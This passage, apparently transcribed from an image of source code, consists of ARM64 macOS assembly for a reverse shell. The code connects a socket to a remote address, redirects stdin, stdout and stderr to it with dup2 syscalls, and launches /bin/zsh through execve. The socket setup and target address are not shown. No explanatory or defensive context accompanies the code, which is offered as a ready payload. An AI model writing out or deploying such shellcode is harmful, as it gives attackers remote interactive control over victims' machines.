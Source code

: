 ```nasm
  ; prepare pointer to sockaddr_in (use adrp/add)
  adrp    x1, sockaddr_in@PAGE
  add     x1, x1, sockaddr_in@PAGEOFF
  mov     x2, #16        ; address length

  ; connect(sockfd, addr, addrlen)
  mov     x0, x19
  mov     x16, #98       ; bsd syscall: connect (98)
  svc     #0xffff
  cmp     x0, #0
  blt     _exit_fail

  ; redirect stderr/stdout/stdin -> socket using dup2
  ; dup2(sock, 2)
  mov     x0, x19
  mov     x1, #2
  mov     x16, #90
  svc     #0xffff

  ; dup2(sock, 1)
  mov     x0, x19
  mov     x1, #1
  ; x16 already 90, but set again for clarity
  mov     x16, #90
  svc     #0xffff

  ; dup2(sock, 0)
  mov     x0, x19
  mov     x1, #0
  mov     x16, #90
  svc     #0xffff

  ; execve("/bin/zsh", ["/bin/zsh", NULL], NULL)
  ; push path
  mov     x3, #0x622f             ; "/b"
  movk    x3, #0x6e69, lsl#16     ; "in"
  movk    x3, #0x7a2f, lsl#32     ; "/z"
  movk    x3, #0x6873, lsl#48     ; "sh"
  stp     x3, xzr, [sp, #-16]!    ; "/bin/zsh\0"

  ; argv = { path, NULL }
  add     x0, sp, xzr             ; x0 = pointer to path
  stp     x0, xzr, [sp, #-16]!    ; push argv array
  add     x1, sp, xzr             ; x1 = argv
  mov     x2, xzr                 ; envp = NULL

  mov     x16, #59                ; execve (bsd syscall 59)
  svc     #0xffff

  ;if execve returns -> exit
_exit_fail:
  mov     x0, #1
  mov     x16, #1    ; exit syscall wrapper via libc _exit may differ
                     ; we call _exit via symbol below
                     ; call libc _exit to be safe
  bl      _exit
```
